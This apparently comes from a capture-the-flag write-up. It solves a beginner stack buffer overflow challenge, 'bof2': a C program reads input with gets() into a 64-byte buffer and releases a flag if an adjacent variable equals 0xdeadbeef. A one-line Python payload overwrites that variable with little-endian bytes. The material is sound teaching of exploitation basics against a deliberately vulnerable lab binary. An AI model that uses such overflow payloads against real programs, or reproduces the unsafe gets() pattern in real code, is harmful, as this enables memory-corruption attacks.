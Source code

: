 # bof2

The challenge asks if you can change variables.
Now we need to set winner to some exact value to get the flag. Let's look at the code

```c
#include <stdio.h>
#include <stdlib.h>

#define BUF_SIZE (64)

void main()
{
    int winner = 0;
    char buf[BUF_SIZE];

    gets(buf);

    if (winner == 0xdeadbeef) {  
        system("cat flag.txt");
    }
}
```

Okay, looks very similar to the first challenge.

*Remember, in memory we use little endian, meaning we are writing backwards

```bash
python -c "print 'A'*64 + '\xef\xbe\xad\xde'" | ./bof2
```

